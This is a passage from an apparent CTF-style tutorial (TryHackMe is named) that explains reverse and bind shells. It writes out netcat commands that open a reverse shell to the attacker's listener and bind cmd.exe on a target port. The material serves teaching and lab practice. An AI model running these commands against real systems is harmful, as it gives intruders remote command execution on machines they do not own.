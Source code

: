 As a general rule, reverse shells are easier to execute and debug, however, we will cover both examples below. Don't worry too much about the syntax here: we will be looking at it in upcoming tasks. Instead notice the difference between reverse and bind shells in the following simulations.

Reverse Shell example:

Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:

sudo nc -lvnp 443

On the target:

nc <LOCAL-IP> <PORT> -e /bin/bash


Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.
Bind Shell example:

Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute cmd.exe. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target:

nc -lvnp <port> -e "cmd.exe"

On the attacking machine:

nc MACHINE_IP <port>


As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

The final concept which is relevant in this task is that of interactivity. Shells can be either interactive or non-interactive.

    Interactive: If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to
    interactive shells. These allow you to interact with programs after executing them. For example, take the SSH login prompt:
